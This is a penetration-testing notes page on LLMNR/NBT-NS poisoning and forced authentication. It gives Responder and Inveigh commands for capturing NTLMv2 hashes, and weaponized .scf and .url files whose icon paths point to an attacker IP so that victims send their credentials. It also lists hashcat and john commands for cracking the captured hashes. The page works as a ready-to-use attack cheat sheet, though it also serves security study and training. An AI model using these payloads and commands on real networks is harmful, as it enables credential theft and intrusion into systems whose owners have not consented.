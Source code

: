```yaml
---
description: Credential Access, Stealing hashes
---
```


# LLMNR Poisoning/Forced Authentication

## LLMNR Poisoning

Link-Local Multicast Name Resolution (LLMNR) is a protocol that is able to perform name resolution in the absence of a DNS server. When a request is made for a share such as `\\Fileshares` and the user accidently instead types `\\Filesharez` getting the share name incorrect DNS would first attempt to resolve the target share and when failing to do so (As it does not exist) It will fallback to LLMNR.

Once DNS has failed to resolve the request and LLMNR kicks in the requesting machine will send out a broadcast on the subnet asking if anyone of the other devices can connect them to the share `\\Filesharez` The attacking machine on the network will respond to the request stating that it can get them connected to the share. At this point the requesting (victim) machine will send the username and NTLMv2 hash of the account requesting the resource over to the malicious machine.

Responder will print it out on screen and write it to a log file per host located in the `/usr/share/responder/logs` directory. Hashes are saved in the format `(MODULE_NAME)-(HASH_TYPE)-(CLIENT_IP).txt`, and one hash is printed to the console and stored in its associated log file unless `-v` mode is enabled

<figure><img src="../../../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

Analysis Mode

```
sudo responder -I ens224 -A 
```

### via SSRF

{% embed url="https://lojique.gitbook.io/proving-grounds/v/heist/web-enum/website" %}

### Inveigh

LLMNR & NBT-NS poisoning is possible from a Windows host as well. The tool [Inveigh](https://github.com/Kevin-Robertson/Inveigh) works similar to Responder, but is written in PowerShell and C#. The PowerShell version of Inveigh is the original version and is no longer updated. The tool author maintains the C# version, which combines the original PoC C# code and a C# port of most of the code from the PowerShell version. Inveigh can listen to IPv4 and IPv6 and several other protocols, including `LLMNR`, DNS, `mDNS`, NBNS, `DHCPv6`, ICMPv6, `HTTP`, HTTPS, `SMB`, LDAP, `WebDAV`, and Proxy Auth.&#x20;

#### Powershell

```powershell
PS C:\htb> Import-Module .\Inveigh.ps1
PS C:\htb> (Get-Command Invoke-Inveigh).Parameters

PS C:\htb> Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```

#### C# ([InveighZero](https://github.com/Flangvik/SharpCollection/blob/master/NetFramework\_4.7\_x86/Inveigh.exe))

```powershell-session
.\Inveigh.exe
GET NTLMV2UNIQUE
GET NTLMV2USERNAMES
```

We can also see the message `Press ESC to enter/exit interactive console`, which is very useful while running the tool. The console gives us access to captured credentials/hashes, allows us to stop Inveigh, and more.

We can quickly view unique captured hashes by typing `GET NTLMV2UNIQUE`.

We can type in `GET NTLMV2USERNAMES` and see which usernames we have collected. This is helpful if we want a listing of users to perform additional enumeration against and see which are worth attempting to crack offline using Hashcat.

\


## Forced Authentication

{% embed url="https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication" %}

### Execution via .SCF

Place the below `.scf` file on the attacker controlled machine in a shared folder

{% code title="pwn.scf" %}
```csharp
[Shell]
Command=2
IconFile=\\192.168.123.123\home\kali\pwn.scf
[Taskbar]
Command=ToggleDesktop
```
{% endcode %}

Create a listener on the attacking system:

{% code title="attacker@local" %}
```
responder -I eth1 -v
```
{% endcode %}

### Execution via .URL

Create a weaponized .url file and upload it to the victim system:

```csharp
[InternetShortcut]
URL=whatever
WorkingDirectory=whatever
IconFile=\\192.168.123.123\%USERNAME%.icon
IconIndex=1
```

Create a listener on the attacking system:

{% code title="attacker@local" %}
```
responder -I eth1 -v
```
{% endcode %}

## Example

{% embed url="https://lojique.gitbook.io/proving-grounds/v/vault/other-services-enumeration/445-smb" %}

## Cracking NTLMv2

```bash
# On Kali
hashcat -m 5600 'pasted hash' -a 3 /usr/share/wordlists/rockyou.txt --force --potfile-disable
hashcat -m 5600 ntlmhash.txt /usr/share/wordlists/rockyou.txt --force
john --wordlist=/usr/share/wordlists/rockyou.txt ntlmhash.txt
```

```bash
# On windows host
hashcat.exe -m 5600 hash.txt rockyou.txt -O
```

## Resources

{% embed url="https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/adversary-in-the-middle/llmnr" %}

{% embed url="https://book.hacktricks.xyz/generic-methodologies-and-resources/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks" %}

{% embed url="https://attack.mitre.org/techniques/T1557/001/" %}
